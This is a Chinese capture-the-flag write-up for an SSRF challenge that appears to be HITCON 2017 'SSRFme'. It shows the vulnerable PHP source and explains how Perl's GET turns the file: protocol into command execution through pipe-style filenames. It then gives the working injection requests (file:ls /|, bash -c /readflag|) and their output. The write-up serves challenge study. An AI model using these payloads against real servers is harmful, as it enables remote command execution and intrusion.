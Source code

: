 ![](<./img/Pasted image 20230110085126.png>)

---

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
?>
```

参考 [大佬的wp](https://f002.backblazeb2.com/file/sec-news-backup/files/writeup/ricterz.me/_posts_HITCON_202017_20SSRFme/index.html)

![](<./img/Pasted image 20230110122535.png>)

`GET`是`perl`的一个命令，对于`file`协议的处理调用了`open`函数来实现，而`open`函数支持管道形式的文件句柄，因此可以将命令的结果作为文件处理。

由于`GET`处理`file`协议时在调用`open`前进行了一次文件存在的判断，因此需要访问两次，第一次利用`file_put_contents`创建文件，第二次进行命令执行

```
/?url=file:ls /|&filename=ls /|
```

```
/?url=file:ls /|&filename=ls /|
```

```
/sandbox/xxxx/ls /|
```

```
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
readflag
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

有个`readflag`，直接执行

```
/?url=file:bash -c /readflag|&filename=bash -c /readflag|
```

```
/sandbox/xxxx/bash -c /readflag|
```

```
flag is flag{1a5541cb-126c-4986-be35-c82a6c98bb6f}
```

#Web #RCE #perl #file #protocol #open #function